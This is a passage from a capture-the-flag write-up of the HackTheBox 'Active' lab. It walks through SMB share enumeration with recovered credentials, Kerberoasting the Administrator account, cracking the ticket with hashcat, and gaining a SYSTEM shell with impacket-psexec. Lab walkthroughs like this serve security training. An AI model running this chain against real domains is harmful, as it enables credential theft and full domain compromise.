|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       highestCommittedUSN: 94252
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       dnsHostName: DC.active.htb
|       ldapServiceName: active.htb:dc$@ACTIVE.HTB
|       serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=active,DC=htb
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       isSynchronized: TRUE
|       isGlobalCatalogReady: TRUE
|       domainFunctionality: 4
|       forestFunctionality: 4
|_      domainControllerFunctionality: 4
...
```

# Exploitation

## Authenticated enumeration against SMB

Enumerated SMB shared using **active.htb\SVC_TGS**:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/SMB]
└─$ smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
[+] IP: 10.10.10.100:445        Name: active.htb
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
        Users                                                   READ ONLY
```

Enumerated ***Users*** contents:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/SMB]
└─$ smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -R Users
[+] IP: 10.10.10.100:445        Name: active.htb
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Users                                                   READ ONLY
        .\Users\*
        dw--w--w--                0 Sat Jul 21 10:39:20 2018    .
        dw--w--w--                0 Sat Jul 21 10:39:20 2018    ..
        dr--r--r--                0 Mon Jul 16 06:14:21 2018    Administrator
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    All Users
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Default
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Default User
        fr--r--r--              174 Mon Jul 16 17:01:17 2018    desktop.ini
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Public
        dr--r--r--                0 Sat Jul 21 11:16:32 2018    SVC_TGS
        .\Users\Default\*
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    .
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    AppData
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Application Data
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Cookies
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Desktop
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Documents
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Downloads
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Favorites
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Links
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Local Settings
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Music
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    My Documents
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    NetHood
        fr--r--r--           262144 Mon Jul 30 09:47:52 2018    NTUSER.DAT
        fr--r--r--             1024 Mon Jul 16 17:01:17 2018    NTUSER.DAT.LOG
        fr--r--r--            95232 Mon Jul 30 09:47:52 2018    NTUSER.DAT.LOG1
        fr--r--r--                0 Mon Jul 16 17:08:47 2018    NTUSER.DAT.LOG2
        fr--r--r--            65536 Mon Jul 16 17:01:17 2018    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
        fr--r--r--           524288 Mon Jul 16 17:01:17 2018    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
        fr--r--r--           524288 Mon Jul 16 17:01:17 2018    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Pictures
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    PrintHood
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Recent
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Saved Games
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    SendTo
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Start Menu
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Templates
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Videos
        .\Users\Default\AppData\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Local
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Roaming
        .\Users\Default\AppData\Local\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Application Data
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    History
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Microsoft
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Temp
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    Temporary Internet Files
        .\Users\Default\AppData\Local\Microsoft\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Windows
        .\Users\Default\AppData\Local\Microsoft\Windows\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    GameExplorer
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    History
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Temporary Internet Files
        .\Users\Default\AppData\Roaming\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Microsoft
        .\Users\Default\AppData\Roaming\Microsoft\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Internet Explorer
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Windows
        .\Users\Default\AppData\Roaming\Microsoft\Internet Explorer\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Quick Launch
        .\Users\Default\AppData\Roaming\Microsoft\Windows\*
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    .
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Cookies
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Network Shortcuts
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Printer Shortcuts
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Recent
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    SendTo
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    Start Menu
        dr--r--r--                0 Mon Jul 16 17:08:47 2018    Templates
        .\Users\Default\Documents\*
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    .
        dw--w--w--                0 Mon Jul 16 17:08:47 2018    ..
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    My Music
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    My Pictures
        dr--r--r--                0 Mon Jul 16 17:08:56 2018    My Videos
        .\Users\SVC_TGS\*
        dr--r--r--                0 Sat Jul 21 11:16:32 2018    .
        dr--r--r--                0 Sat Jul 21 11:16:32 2018    ..
        dr--r--r--                0 Sat Jul 21 11:14:20 2018    Contacts
        dr--r--r--                0 Sat Jul 21 11:14:42 2018    Desktop
        dr--r--r--                0 Sat Jul 21 11:14:28 2018    Downloads
        dr--r--r--                0 Sat Jul 21 11:14:50 2018    Favorites
        dr--r--r--                0 Sat Jul 21 11:15:00 2018    Links
        dr--r--r--                0 Sat Jul 21 11:15:23 2018    My Documents
        dr--r--r--                0 Sat Jul 21 11:15:40 2018    My Music
        dr--r--r--                0 Sat Jul 21 11:15:50 2018    My Pictures
        dr--r--r--                0 Sat Jul 21 11:16:05 2018    My Videos
        dr--r--r--                0 Sat Jul 21 11:16:20 2018    Saved Games
        dr--r--r--                0 Sat Jul 21 11:16:32 2018    Searches
        .\Users\SVC_TGS\Desktop\*
        dr--r--r--                0 Sat Jul 21 11:14:42 2018    .
        dr--r--r--                0 Sat Jul 21 11:14:42 2018    ..
        fr--r--r--               34 Sat Jul 21 11:14:42 2018    user.txt
```

Downloaded user flag:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/SMB]
└─$ cd SVC_TGG; smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -R Users -A user.txt
[+] IP: 10.10.10.100:445        Name: active.htb
[+] Starting search for files matching 'user.txt' on share Users.
[+] Match found! Downloading: Users\SVC_TGS\Desktop\user.txt

┌──(kali㉿kali)-[~/…/Active/loot/SMB/SVC_TGG]
└─$ cat 10.10.10.100-Users_SVC_TGS_Desktop_user.txt
86d67d8ba232bb6a254aa4d10159e983
```

# Privilege Escalation

## Authenticated domain enumeration

Enumerated LDAP using **active.htb\SVC_TGS** user:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Active/loot]
└─$ mkdir LDAP

┌──(kali㉿kali)-[~/…/HTB/box/Active/loot]
└─$ ldapdomaindump 10.10.10.100 -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --no-json --no-grep -o LDAP
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

┌──(kali㉿kali)-[~/…/box/Active/loot]
└─$ ls LDAP
domain_computers_by_os.html  domain_computers.html  domain_groups.html  domain_policy.html  domain_trusts.html  domain_users_by_group.html  domain_users.html
```

Domain users:



Enumerated SPNs:

```bash
┌──(kali㉿kali)-[~/…/Active/loot/SMB/SVC_TGG]
└─$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

## TGS Kerberoasting

Dumped the TGS:

```bash
┌──(kali㉿kali)-[~/…/Active/loot/SMB/SVC_TGG]
└─$ sudo ntpdate 10.10.10.100
24 May 08:23:50 ntpdate[37483]: step time server 10.10.10.100 offset +418.910834 sec

┌──(kali㉿kali)-[~/…/Active/loot/SMB/SVC_TGG]
└─$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$a4f8649791eedcf6870ca9d0c5bc6463$331e4944be651d73d2689ab7ebb4b0f37cd5526e9f5f991e68c250e500516475cf567afbe5ec2d710a65fd323255c64a171b8898865ead1d38b24ad5af7950f21eab1c3e24a6c536eddf7ae1d825b1dfbcdbfcd96f88aac0372a3fd96c17f4c261511fd05069b129eb421fca59a13c60b1e56985bcd29d2b14ef55fe136f49455abaa69c31835e19632d149b2c12ab1ad4a9c9ce4c091688f88b9dc6d303410770a91f08261d1ec12a4bcaabfc9cd433d1d5ce7bde14fc63676a0b61f53b9e1baff59b891a7e4b4c6d7f8f0f529f22d9bfeae90fef3ec7b8d430b5407961d674cf000c3c2f8f41be89bde7137c3df282660d4b0790e1e1c91faa4ebca9b4d2f0a641b76fa69e411879efe6f30d34c9e7759e9faedab380846348fd2c36f113307a2f267b50c93977e1691cdb6ac3f91b813421c73cb24d2d715a942d0f264469dfb5577b095664350bb4529fd090c7cf4a2ba5fc3ecd6afb5c6ddbf001af54ac15cdd67bc22e99223adfd18da9b7e2f88f06e656be6657fe7f9b376d1a0fe6d097c377768416dd6e4bcbe261838f831bd0d963d601d41723d16d5a08e7adf6893a0bb6bce8facba634b28e9766efdd34aed1d94e29bf968676c9742983c09590dafdcd8fac8d154c250a99aa08bd9aef105a8d67c9bf1ae803b782d16447de98ff6fffd1cc560ba6bca0ec34f20ccab7e700380c054a66e1a54994b0b0cba705f7cf7d054464b5eab13a83e9aa45f1699bab6756f5281d8f3f79f037bb3219ce94eea5f48f5a68349a4f6dd1b84e4d554535ad37e33f0ac0e041f762ac9473d1b81e8523f77887006c0448fd529cb96790454b296e1d475eae58bf70ddd7debee4178e1da613cc1abc1a60b56b21a503d9c82a20e598027a5eb71f86be6c8e60cb0f7dcd98caa602b11e0b634c7d3b7521f997178f37a115a1637d10722e5b3cf4293f64778c3804c07ff0ab90d0cb0a6e41aa60284b4af690f73c40fb591809a8432a204119e2f570cf6a6b0f1da74c17cc719c34f465fc47595421c580c20d508f81eba29d050d04c757c89a0076bac4fbb8eea4b141e705f815065817c7d4053a21a4d6c460f223af438ab21c622e5f0cbfdd8002e5076dc5dd85befd255d780d19f60a8b3090fba1f565337fc7952b42850b34d2cc99b2793d1103370bc91213a64fdf802072c02b66c189e1ccd0550d77748859a9618c210b08fc6a06818ca2f468fbd767537cdae60881ed3ab65c224ecf5d0cc122d8e6
```

Kerberoasted **krb5tgs** TGS:

```bash
┌──(kali㉿kali)-[~/…/Active/loot/SMB/Administrator]
└─$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request -o TGS

┌──(kali㉿kali)-[~/…/Active/loot/SMB/Administrator]
└─$ hashcat -m13100 TGS /usr/share/wordlists/rockyou.txt --force
hashcat (v6.1.1) starting...
...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$4250804b6a9b0262e1a85277564f60ec$6050dc9cbf41427506ef7c59caf8222bcd99d20a8bf70abe1abcf7198294ea6e350ab07c8ad1698c0a1b9ef2d32d1e8f60e3df29e9ba6a00b081f37808cbd0d54b792583fcacd68ceb85d69b1f840986b9df995bfd3102c0c6e29c091c0bb04673d2e5220ddcbe26aba2db7365be6f130db7a6c7cb69483d77b6bbfca3fca56b04b44a99db3408504c7e40752c552ef3687c017335da6b28a6f6145bb79547720b30b824fcafb223d8229f37c9302da3f2e5c3dd2aec908ccd747deb5bc20fe56ca529de0d34feb3873df7a2c12f51117eff7a3965ba6e7670591b114a13ca27583d018ba439d6c2920c40dc0b94037dc23a777d7d5375f1a7a5b5f36d3f77c10f798aaf604213fb06301eba375d3919c8cdb8251a9fc61452d50717be24fa5f8486fdadd457609219563fce641d3fe28119c99ae2a93b905ed9c45cb2a56492c5ed8e0626dbaf7e302c2fe194de8e471777ae28c0177a7ae75c23e76c13476de06777d1298077adcb345be996f5592c121b05484a4979fd9f8a01e650e097519ef3a154f46978eb965130de5d101fd23a364536619cf250a84f1424f77295b3b16c3cf578e485fcf8c48bb8d76f975f6aee6c0c8b0f57687751aa86074eddae47519c3324b2f5d8c17de10a5618115cbe7ebcecff771ca1eca1fcf62f7bba4a6a663d65a8676bc5447bb8dbe134d018608dabf0f65bc2ca042916984fb8bff868d4f2687224d1bb6d153d3d42eec030bb00e81b02ef90afe65c2c1e8305e8445e570da8767ab51eacfdbef12b7606562fc3ce0f0117ee5da30cd1a64b15c24ff65fe918787ebbcbe5c9aec7b24a045c7b9bdaf4ff006c78c2d261c6cf0b4a4a88ea6cc0810a4f27603a1566913062e6d84a0970e2ffccbf86aeed79e292d49fdb4cb4af9d917b3d9d11e0f876cf42f785e0f1be8f919a4d975b5a69484701e629961e8d32f5202cb7c79365cf1c092e695265bbe17ced4dff9273b993d31f26b49a6ed688e7e688a0a146d4636f3d8f95d82685485014ba449f556adec3a4dec6c336c7585f2d42f56ca6864a35ca26353171ebfa8643dac1318c12a4efc1447e2b2ead5f58f429e780d467a9105f324ea53197b5dedb939f66fb989fbb731a22c1dac56835267f615c74768a01b8cf7bda24b1fc2bebc87d0d4ebc32a830c522b88434c7923286726e2c80fffb266223b66a259730d8e6890671f40747d5ac8916b961c0ed60ea68ec49b9f1df416ea47f6de0d4fa2019412a:Ticketmaster1968
...
```

Logged in as Administrator:

```bash
┌──(kali㉿kali)-[~/…/box/Active/loot/LDAP]
└─$ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file UEAxGszQ.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service UHbd on 10.10.10.100.....
[*] Starting service UHbd.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && hostname && type C:\Users\Administrator\Desktop\root.txt && ipconfig
nt authority\system
DC
b5fc76d1d6b91d77b2fbf2d54d0f708b

Windows IP Configuration

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.10.100
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{B3FEC2C7-47CA-4014-A441-A3A5CDDC983C}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```



# Trophy

>[!quote]
> You can never cross the ocean until you have the courage to lose sight of the shore.
> \- Christopher Columbus


>**User.txt**
>86d67d8ba232bb6a254aa4d10159e983

>**Root.txt**
>b5fc76d1d6b91d77b2fbf2d54d0f708b

